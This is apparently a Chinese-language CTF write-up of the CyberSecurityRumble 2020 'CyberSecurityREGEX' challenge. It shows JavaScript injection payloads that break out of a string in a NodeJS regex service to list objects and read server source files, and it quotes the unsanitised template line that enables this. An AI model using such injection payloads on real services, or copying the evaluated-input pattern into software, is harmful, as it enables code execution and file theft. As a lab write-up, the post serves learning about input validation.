

為什麼不要信任使用者輸入 (CyberSecurityREGEX)
CyberSecurityRumble CTF 2020 已經過去幾周了, 因個人能力問題, 我沒能拿到多少 Flag. 不過部落格也長草許久, 今天就回顧一下其中的一個挑戰 —— CyberSecurityREGEX.

看到此挑戰的第一時間, 我立刻意識到應該與使用者輸入驗證不嚴格有關. 同隊的 Linnaea 猜測伺服器是 NodeJS, 經過測試果然如此. 後來我才發現頁面上已經明確告知伺服器是 JavaScript 編寫的
测试用例如下:
1 | '; return Object.getOwnPropertyNames(this); // |

simpleFs 引起了我的興趣, 仔細看看:
1 | '; return Object.getOwnPropertyNames(this.simpleFs); // |
Result:
1 | { |
繼續嘗試:
1 | '; return this.simpleFs.readFileSync('index.js'); // |
Result:
1 | { |
利用此方法獲取到全部程式碼:
api.js
1 | var express = require('express'); |
index.js
1 | var express = require('express'); |
leftover.js
1 | class Utility { |
regexer.js
1 | const sfs = require('./simple-fs'); |
simple-fs.js
1 | const fs = require('fs'); |
regexer.js 中可以看到:
1 | var str = `var _result = '${input}'.match(/${pattern}/${flags}); return _result;`; |
果然沒有驗證使用者輸入.
leftover.js 中有 LEGACY_UTILS = new Utility();, 可以利用.

更進一步, 拿到 Flag.